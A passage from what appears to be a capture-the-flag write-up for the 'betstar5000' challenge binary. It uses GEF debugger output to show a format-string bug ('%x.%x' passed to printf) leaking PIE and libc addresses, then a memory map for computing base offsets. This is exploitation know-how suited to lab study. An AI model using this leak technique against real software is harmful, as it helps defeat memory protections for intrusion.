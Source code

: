 ```
      0x565555b6 <fflush@plt+6>   push   0x10
      0x565555bb <fflush@plt+11>  jmp    0x56555580
──────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   [sp + 0x0] = 0xffffd06c → "%x.%x"
)
──────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "betstar5000", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x565559df → call 0x565555a0 <printf@plt>
[#1] 0x56555ccb → add esp, 0x10
[#2] 0xf7df5e81 → __libc_start_main()
[#3] 0x565556c1 → hlt
─────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/s 0x5655605c
0x5655605c:    "And the winner is *drumroll*: "
gef➤  x/w 0xf7fb55c0
0xf7fb55c0 <_IO_2_1_stdin_>:    U"\xfbad2288\x56558572\x56558572\x56558570\x56558570\x56558570\x56558570\x56558570\x56558970"
gef➤  c
Continuing.
And the winner is *drumroll*: 5655605c.f7fb55c0
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
```

So we can see the addresses the we leaked are `0x5655605c` (the string in the binary `And the winner is *drumroll*: `), and `0xf7fb55c0` (libc `STDIN`). Notice how these addresses are the first two addresses we can leak with the fmt string `%x.%x`, and that these two addresses are the first two values below our format strin `%x.%x`, which is at the top of the stack. This isn't a coincidence. We can reliably use this as a remote infoleak for both `PIE` and `libc`. We can find the offsets from those values to the libc/pie bases like this:

```
gef➤  vmmap
Start      End        Offset     Perm Path
0x56555000 0x56557000 0x00000000 r-x /home/guyinatuxedo/Desktop/betstar/betstar5000
0x56557000 0x56558000 0x00001000 rw- /home/guyinatuxedo/Desktop/betstar/betstar5000
0x56558000 0x5657a000 0x00000000 rw- [heap]
0xf7ddd000 0xf7fb2000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.27.so
0xf7fb2000 0xf7fb3000 0x001d5000 --- /lib/i386-linux-gnu/libc-2.27.so
0xf7fb3000 0xf7fb5000 0x001d5000 r-- /lib/i386-linux-gnu/libc-2.27.so
0xf7fb5000 0xf7fb6000 0x001d7000 rw- /lib/i386-linux-gnu/libc-2.27.so
0xf7fb6000 0xf7fb9000 0x00000000 rw-
0xf7fd0000 0xf7fd2000 0x00000000 rw-
0xf7fd2000 0xf7fd5000 0x00000000 r-- [vvar]
0xf7fd5000 0xf7fd6000 0x00000000 r-x [vdso]
0xf7fd6000 0xf7ffc000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.27.so
0xf7ffc000 0xf7ffd000 0x00025000 r-- /lib/i386-linux-gnu/ld-2.27.so
0xf7ffd000 0xf7ffe000 0x00026000 rw- /lib/i386-linux-gnu/ld-2.27.so
0xfffdd000 0xffffe000 0x00000000 rw- [stack]
```
